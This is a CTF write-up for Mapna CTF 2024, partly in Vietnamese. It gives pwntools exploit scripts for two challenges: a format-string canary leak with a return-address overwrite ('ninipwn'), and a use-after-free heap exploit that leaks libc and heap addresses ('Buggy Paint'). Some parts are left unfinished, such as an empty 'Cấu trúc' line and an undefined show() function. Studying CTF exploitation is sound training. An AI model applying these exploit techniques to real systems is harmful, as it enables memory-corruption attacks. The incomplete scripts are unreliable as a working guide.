

# Mapna CTF 2024



## ninipwn

- Category: OOB

```c
#!/usr/bin/python3

from pwn import *

exe = ELF('ninipwn', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x0000555555555431
                b*0x000055555555539d
                c
                ''')
                input()
rop = ROP(exe)
# rop.write(7, 8, 9)
# find_gadget(['pop rdi, ret'])
info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('3.75.185.198', 7000)
else:
        p = process(exe.path)

GDB()
format = b'%39$p|'.ljust(8, p8(0)) + p16(282)
sla(b'h: ', '10')
sa(b'y: ', format)
p.recvuntil(b': ')
canary = int(p.recvuntil(b'|', drop=True), 16)
info("canary: " + hex(canary))
payload = b'a'*264
payload += flat(
        canary, 0
) + p16(0x5433)
payload = xor(payload, format[0:8])
sa(b'Text: ', payload)
p.interactive()
```

## Buggy Paint

- Category: Heap | UAF

### Phân tích

- Ở đây có bug là khi chúng ta `select` -> `delete` -> `edit` thì chương trình không nhận ra chunk được select đã bị xoá. => UAF
- Cấu trúc 
### Khai thác

#### Chuẩn bị

```python
#!/usr/bin/python3
from pwn import *

exe = ELF('chall_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                # b*0x555555555E73

                c
                ''')
                input()
# rop.write(7, 8, 9)
# find_gadget(['pop rdi, ret'])
info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('3.75.185.198', 2000)
else:
        p = process(exe.path)

GDB()

def create(x,y,w,h, content):
    sla(b'> ', '1')
    sla(b': ', str(x))
    sla(b': ', str(y))
    sla(b': ', str(w))
    sla(b': ', str(h))
    sla(b': ', str(1))
    sa(b': ', content)
def select(x,y):
    sla(b'> ', '3')
    sla(b': ', str(x))
    sla(b': ', str(y))
def delete(x,y):
    sla(b'> ', '2')
    sla(b': ', str(x))
    sla(b': ', str(y))

def edit(content):
    sla(b'> ', '4')
    sla(b': ', content)
```

#### Leak Libc
- Ta sẽ cố gắng đưa chunk được select vào `unsorted bin` nhằm mục đích leak libc
```python
for i in range(9):  
    create(0,0+i,4,0x20, b'ab')
for i in range(7):  
    select(0,0+i)
    delete(0,0+i)
select(0,0+7)
delete(0,0+7)
show()
tmp = p.recv(8).split(b'\n')
libc.address = u64((tmp[0] + tmp[1]).ljust(8, b'\0')) - 0x219ce0
info("libc: " + hex(libc.address))
```

### Leak heap
-
```
for i in range(8):  
    create(0,0+i,4,0x20, b'ab')
select(0,0+i)
delete(0,0+i)
show()
tmp = p.recv(8).split(b'\n')
heap = u64((tmp[0] + tmp[1]).ljust(8, b'\0'))
heap = heap << 12
info("heap: " + hex(heap))
```